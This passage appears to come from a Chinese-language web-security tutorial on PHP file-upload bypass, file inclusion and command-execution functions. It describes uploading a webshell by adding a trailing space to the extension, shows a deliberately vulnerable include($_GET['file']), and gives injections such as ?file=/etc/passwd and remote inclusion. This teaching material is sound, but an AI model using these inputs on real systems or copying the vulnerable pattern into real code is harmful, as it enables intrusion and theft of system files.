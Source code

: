 ```php
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
?>
```

此段代码仍使用黑名单过滤，也过滤了 .htaccess 文件，审查代码发现可以使用空格绕过黑名单，因为在 Windows 系统下，后缀名之后的空格会被无视。上传 Webshell 文件，使用 Burpsuite 抓包，把文件的后缀名后加一个空格，即可绕过。

**防护**

## 文件包含漏洞

PHP 有四种文件包含方式：

* `include`
* `include_once`
* `require`
* `require_once`

其中 `include` 和 `require` 的区别是，二者处理错误的方式不同，前者生成一个警告，出错后脚本继续执行，后者生成一个致命错误，脚本停止执行。  
后面带上 `_once` 的作用是如果之前已经包含了该文件，则不会再次包含，即防止多次包含同一个文件。  

### 本地文件包含

PHP 包含文件时不会在意文件的类型，都会当作 PHP 代码执行，故可以通过改变包含的文件请求来读取系统中的敏感文件，譬如代码：

```php
<?php
    include($_GET['file']);
?>
```

URL 注入 `?file=/etc/passwd`，可读取系统的密码文件。
通过 PHP 伪协议 php://filter 可进行任意文件的读取。

### 远程文件包含

若 PHP 配置中 allow_url_include、allow_url_fopen 选项配置为 on，则可直接进行远程文件包含。如在 URL 注入：`?file=http://192.168.17.138/code.txt` 可直接远程读取该文件。

## 代码执行漏洞

**漏洞成因**     
PHP 中可以调用系统命令函数：

* `system()`：执行系统命令，输出执行结果。
* `passthru()`：与 `system()`函数相似。
* `exec()`：执行系统命令，无回显，返回最后一行结果。
* `shell_exec()`：执行系统命令，返回完整的输出结果。
* `popen(command, mode)`：command 为执行的命令，mode 规定连接模式，可以是 r（只读）、w（只写）等。
* `proc_open()`：不直接返回执行结果，返回一个文件指针。
* `pcntl_exec()`：执行发生错误返回 FALSE，无错误不返回。
